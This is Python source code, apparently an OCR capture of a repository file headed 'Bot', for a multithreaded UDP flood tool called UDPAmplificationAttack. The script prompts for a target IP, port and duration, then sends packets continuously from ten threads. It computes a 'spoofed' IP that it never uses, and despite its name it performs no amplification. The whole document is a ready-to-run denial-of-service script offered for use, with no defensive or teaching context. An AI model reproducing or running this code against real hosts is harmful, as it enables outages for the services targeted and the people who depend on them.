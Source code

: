 # Bot import socket
import random
import threading
import time

class UDPAmplificationAttack:
    def __init__(self, target_ip, target_port, payload, packet_size=4096, num_threads=10):
        self.target_ip = target_ip
        self.target_port = target_port
        self.payload = payload
        self.packet_size = packet_size
        self.num_threads = num_threads
        self.counter = 0
        self.running = False

    def send_packet(self):
        while self.running:
            try:
                spoofed_ip = self.random_ip()
                sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                sock.sendto(self.payload, (self.target_ip, self.target_port))
                self.counter += 1
                print(f"Sent packet {self.counter} to {self.target_ip}")
                sock.close()
            except Exception as e:
                print(f"Error: {e}")

    def random_ip(self):
        return ".".join(str(random.randint(0, 255)) for _ in range(4))

    def start_attack(self, duration):
        self.running = True
        threads = []
        for _ in range(self.num_threads):
            thread = threading.Thread(target=self.send_packet)
            thread.start()
            threads.append(thread)

        print(f"Attack started for {duration} seconds with {self.num_threads} threads.")
        time.sleep(duration)
        self.stop_attack(threads)

    def stop_attack(self, threads):
        self.running = False
        for thread in threads:
            thread.join()
        print("Attack stopped.")
        print(f"Total packets sent: {self.counter}")

if __name__ == "__main__":
    # Target IP and port
    target_ip = input("Enter target IP: ")
    target_port = int(input("Enter target port: "))
    
    # Enhanced UDP server stress payload
    payload = b"\x00\x00" * 1024 
    
    # Create UDPAmplificationAttack instance
    amplification_attack = UDPAmplificationAttack(target_ip, target_port, payload)
    
    # Start the attack
    duration = int(input("Enter attack duration (seconds): "))
    amplification_attack.start_attack(duration)
